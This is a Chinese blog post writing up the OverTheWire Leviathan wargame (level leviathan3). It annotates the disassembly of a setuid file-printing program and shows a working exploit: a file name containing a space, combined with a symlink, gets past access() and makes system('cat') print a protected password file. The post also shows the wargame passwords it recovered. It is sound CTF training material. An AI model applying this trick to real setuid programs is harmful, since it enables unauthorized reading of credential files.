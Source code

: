 ========================================
 OverTheWire Leviathan
========================================

.. post:: 2016-01-01
   :tags: CTF
   :author: LA
   :language: zh_CN

.. hint:: 这是一篇迁移自 Jekyll 的文章，如有格式问题，可到 :ghrepo:`SilverRainZ/bullet` 反馈

地址: `OverTheWire: Leviathan <http://overthewire.org/wargames/leviathan/>`_.

说实话题目不难，可是从开始做题到做完的时间跨度却有一个多月，人家 rr 却做了一会儿就搞定了，我都在干嘛呢？

完整的笔记在 `这里 <https://github.com/SilverRainZ/no-silver-bullet/blob/master/ctf/wargame-leviathan/wargame-leviathan.md>`_\ ，
其中有点意思的是 leviathan3，所以特地摘抄出来：

登入机器后发现家目录有个带 `suid` 权限的可执行文件 `printfile`\ ，属主是 `leviathan3`\ ，用户组是 `leviathan2`\ ，带 `suid` 的程序执行时可以获得和 owner/grouper 相同的权限（euid/egid）。

.. code:: text

   leviathan2@melinda:~$ ll printfile  
   -r-sr-x--- 1 leviathan3 leviathan2 7498 Nov 14  2014 printfile*
   leviathan2@melinda:~$ ./printfile 
   *** File Printer ***
   Usage: ./printfile filename
   leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
   You cant have that file...

从字面意思上看，这个程序接受一个文件路径然后把文件的内容显示出来，但是要求它打印 `/etc/leviathan_pass/leviathan3` 却提示 `You cant have that file...`\ ，上 gdb 分析看看。

以下是 `diaasm main` 的结果，假设执行了 `r filename`\ ：

.. code:: objdump

   0x0804852d <+0>:     push   %ebp
   0x0804852e <+1>:     mov    %esp,%ebp
   0x08048530 <+3>:     and    $0xfffffff0,%esp
   0x08048533 <+6>:     sub    $0x230,%esp
   0x08048539 <+12>:    mov    0xc(%ebp),%eax           ; argv 参数地址
   0x0804853c <+15>:    mov    %eax,0x1c(%esp)          ; argv 保存到 [esp + 0x1c]
   0x08048540 <+19>:    mov    %gs:0x14,%eax            ; Thread-Local Storage, 不知道是什么
   0x08048546 <+25>:    mov    %eax,0x22c(%esp)
   0x0804854d <+32>:    xor    %eax,%eax
   0x0804854f <+34>:    cmpl   $0x1,0x8(%ebp)           ; argc 和 1 比较，此处 argc 应该为 2
   0x08048553 <+38>:    jg     0x804857e <main+81>      ; / argc > 1 则跳 
   0x08048555 <+40>:    movl   $0x8048690,(%esp)
   0x0804855c <+47>:    call   0x80483d0 <puts@plt>
   0x08048561 <+52>:    mov    0x1c(%esp),%eax
   0x08048565 <+56>:    mov    (%eax),%eax
   0x08048567 <+58>:    mov    %eax,0x4(%esp)
   0x0804856b <+62>:    movl   $0x80486a5,(%esp)
   0x08048572 <+69>:    call   0x80483b0 <printf@plt>
   0x08048577 <+74>:    mov    $0xffffffff,%eax
   0x0804857c <+79>:    jmp    0x80485e8 <main+187>

   ; -> 来自 0x08048553 <+38> 的跳转，以上代码不必分析了
   0x0804857e <+81>:    mov    0x1c(%esp),%eax          ; 取出储存的 argv
   0x08048582 <+85>:    add    $0x4,%eax                ; 移动到 argv 的第一个参数（从 0 计数）
   0x08048585 <+88>:    mov    (%eax),%eax              ; 取出 argv[1] 的值，指向字符串 ‘filename’
   0x08048587 <+90>:    movl   $0x4,0x4(%esp)           ; 参数二：int amode
   0x0804858f <+98>:    mov    %eax,(%esp)              ; | argv[1] 作参数一： char *path
   0x08048592 <+101>:   call   0x8048420 <access@plt>   ; / access(argv[1], 4)，成功返回 0
   0x08048597 <+106>:   test   %eax,%eax
   0x08048599 <+108>:   je     0x80485ae <main+129>     ; 跳
   0x0804859b <+110>:   movl   $0x80486b9,(%esp)
   0x080485a2 <+117>:   call   0x80483d0 <puts@plt>
   0x080485a7 <+122>:   mov    $0x1,%eax
   0x080485ac <+127>:   jmp    0x80485e8 <main+187>

   ; -> 来自 0x08048599 <+108> 的跳转
   0x080485ae <+129>:   mov    0x1c(%esp),%eax          ; \
   0x080485b2 <+133>:   add    $0x4,%eax                ; | 取得 argv[1]
   0x080485b5 <+136>:   mov    (%eax),%eax              ; /
   0x080485b7 <+138>:   mov    %eax,0xc(%esp)           ; ...: argv[1]
   0x080485bb <+142>:   movl   $0x80486d4,0x8(%esp)     ; | char *format: string "/bin/cat %s"
   0x080485c3 <+150>:   movl   $0x1ff,0x4(%esp)         ; | size_t size: 511
   0x080485cb <+158>:   lea    0x2c(%esp),%eax          ; | 
   0x080485cf <+162>:   mov    %eax,(%esp)              ; | char *str
   0x080485d2 <+165>:   call   0x8048410 <snprintf@plt> ; / snprintf(str, 511, "/bin/cat %s", argv[1]);
   0x080485d7 <+170>:   lea    0x2c(%esp),%eax
   0x080485db <+174>:   mov    %eax,(%esp)              ; \
   0x080485de <+177>:   call   0x80483e0 <system@plt>   ; / system("/bin/cat filename");
   0x080485e3 <+182>:   mov    $0x0,%eax
   0x080485e8 <+187>:   mov    0x22c(%esp),%edx
   0x080485ef <+194>:   xor    %gs:0x14,%edx
   0x080485f6 <+201>:   je     0x80485fd <main+208>
   0x080485f8 <+203>:   call   0x80483c0 <__stack_chk_fail@plt>
   0x080485fd <+208>:   leave  
   0x080485fe <+209>:   ret

可以看到程序接受一个文件路径，先检查对该文件的访问权限，然后执行 shell 命令 "/bin/cat filename"。

问题出在 `access` 函数， man 是这样说的：

..

   The access() function shall check the file named by the pathname pointed to by the path argument for accessibility according to the bit pattern contained in amode, *using the real user ID in place of the effective user ID and the real group ID in place of the effective group ID.*


而 `suid` 权限改变的只是进程的 `euid`\ ，因此当你执行 `./printfile /etc/leviathan_pass/leviathan3` 的时候，access 函数总是失败的。

但是用 gdb 改变程序的流程也是\ `\ *不可行* <http://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs>`_\ 的，非 root 的 gdb 调试带 suid 权限的程序时，程序不会获得本来应该有的权限（否则 gdb 就可以任意地改变程序的行为了），即使绕过了 access 函数，你依然会得到一个 `Permission denied`\ 。

到这里我就没辙了，只能看别人的 writeup 了：\ `OverTheWire Leviathan Wargame Solution 2 <https://rundata.wordpress.com/2013/03/27/overthewire-leviathan-wargame-solution-2/>`_\ ，看完发现脑洞确实不够大。

*Solution:*

access() 接受的是个字符串参数，而 cat 的参数却是由 shell 处理的，执行 `./printfile "flag here"`\ ，对于 access 函数来说是执行了 `access("flag here", 4)`\ , 检查对 `flag here` 这个文件的访问权限，而对 cat 来说是这样的 `system("cat flag here")`\ ，因此可以利用这个区别来绕过 access 函数。

.. code:: shell

   leviathan2@melinda:/tmp$ mkdir slove
   leviathan2@melinda:/tmp$ cd slove
   leviathan2@melinda:/tmp/slove$ touch 'flag here'    # 带空格的文件名
   leviathan2@melinda:/tmp/slove$ ln -s /etc/leviathan_pass/leviathan3 flag
   leviathan2@melinda:/tmp/slove$ ls
   flag  flag here
   leviathan2@melinda:/tmp/slove$ ~/printfile 'flag here'  # access 检测的是刚刚建立的新文件， cat 显示的则是 flag 和 here
   Ahdiemoo1j
   /bin/cat: here: No such file or directory

另外发现了一个新工具 ltrace，能够跟踪库函数的调用，就不用像刚才那样分析整个程序了（后面的题目大多数是过一遍 ltrace 就行了）：

.. code:: shell

   leviathan2@melinda:~$ ltrace ~/printfile /etc/leviathan_pass/leviathan2
   __libc_start_main(0x804852d, 2, 0xffffd6f4, 0x8048600 <unfinished ...>
   access("/etc/leviathan_pass/leviathan2", 4)                                       = 0
   snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
   system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
    <no return ...>
   --- SIGCHLD (Child exited) ---
   <... system resumed> )                                                            = 0
   +++ exited (status 0) +++

元旦快乐，希望新的一年不要那么痛苦了。

--------------------------------------------------------------------------------

.. isso::
